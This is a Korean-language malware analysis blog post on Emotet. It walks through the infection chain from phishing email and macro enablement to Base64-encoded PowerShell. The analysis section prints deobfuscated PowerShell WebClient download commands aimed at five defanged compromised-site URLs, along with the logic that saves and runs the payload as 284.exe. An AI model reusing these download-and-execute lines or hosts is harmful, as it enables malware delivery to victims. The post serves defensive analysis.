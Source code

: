 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet 악성코드 분석"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "트로이 목마", "PowerShell", "악성코드", "사이버 보안"]
---
```


## Emotet(이모텟)?

- 주로 이메일을 통해 확산되는 트로이 목마
- 합법적인 이메일처럼 보이도록 가장하여 사용자가 악성 파일을 클릭하도록 유도
- 트로이 목마를 업데이트하고 기본적으로 시스템에 액세스한 다음 운영자가 추가 페이로드를 다운로드할 수 있도록 하는 악성코드 유형인 "로더"로 작동하도록 구성
- 감염된 호스트에서 은행 자격 증명을 훔치거나, 피해자들로부터 돈을 갈취하는 것을 목표로 동작

<br>
<!--more-->
![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 실행/분석

### 1. 사회 공학 기법을 이용해 공격 대상에게 메일 발송
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 공격 대상은 의심없이 첨부 파일 다운로드
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. 파일 Open. 매크로 실행을 위해 'Enable Content' 클릭
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64 인코딩된 코드 PowerShell 프로세스로 실행 시도
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShell 명령어에 의해 conhost 실행
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShell 스크립트 코드 실행
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShell 스크립트 코드 분석
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 아래 URL 에서 파일 다운로드
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 아래 경로에 파일 저장
$env:userprofile\284.exe

3) 23931 bytes 이상이면 실행
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. 사용자 폴더에 파일 생성
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [참조]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet


